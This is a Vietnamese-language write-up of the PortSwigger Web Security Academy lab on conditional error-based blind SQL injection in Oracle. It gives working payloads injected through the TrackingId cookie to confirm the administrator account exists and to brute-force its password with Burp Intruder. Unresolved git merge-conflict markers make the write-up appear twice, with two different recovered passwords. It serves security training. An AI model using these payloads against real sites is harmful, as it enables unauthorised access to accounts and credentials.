


<<<<<<< HEAD


# 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

>⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều  


## Condition error based SQLi

### 1. Vấn đề của Blind SQLi 
Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về gt hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen khong dùng duoc
### 2. Tạo lỗi có điều kiện ( Conditional Error )
Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụngdụng
```sql
CASE 
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```
```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.


Ví dụ:
```sql
SELECT 
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```


Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab
Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
    Ghi lại hoạt động của người dùng (tracking).
    Liên kết với session hoặc log để phân tích hành vi.
    Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- B1. thử trackingID có bị SQLi không


chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là 
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> có SQLi

- B2. thử `abc'||( select '' from dual)|| '`  . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
trong oracle '' = NULL trong mysql


-> ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- B3. thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
backend hay không.

FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi


- B4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`


- B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`


- B6. Tính độ dài của password

 


password có độ dài bằng 20 kí tự . 

- B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list). 
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theotheo)
dùng như nào thì tự tìm hiểu nhé!

đây là ví dụ về kí tự đầu tiên


password ="sbeu5dvy8f"


=======
# 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

> ⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều

## Condition error based SQLi

### 1. Vấn đề của Blind SQLi

Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về giá trị hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giống nhau nên không dùng được.

### 2. Tạo lỗi có điều kiện ( Conditional Error )

Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụng

```sql
CASE
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```

```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.

Ví dụ:

```sql
SELECT
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab

Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
Ghi lại hoạt động của người dùng (tracking).
Liên kết với session hoặc log để phân tích hành vi.
Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- Bước 1. Thử trackingID có bị SQLi không
  
  

Chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> Có SQLi

- Bước 2. thử `abc'||( select '' from dual)|| '` . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
  trong oracle '' = NULL trong mysql
  

-> Ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- Bước 3. Thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
  backend hay không.

* FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
* FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
  Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
  

- Bước 4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`


- Bước 5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`


- Bước 6. Tính độ dài của password


Password có độ dài bằng 20 kí tự .

- Bước 7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list).
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theo).
Dùng Intruder như nào thì tự tìm hiểu nhé!

- Thành công lấy mật khẩukhẩu


password ="sbeu0dvy8fgrd2of14mw"



**Đăng nhập thành công!**
>>>>>>> 461f0a2e1fead5e53fd0b33bb1e824d53d75c31d
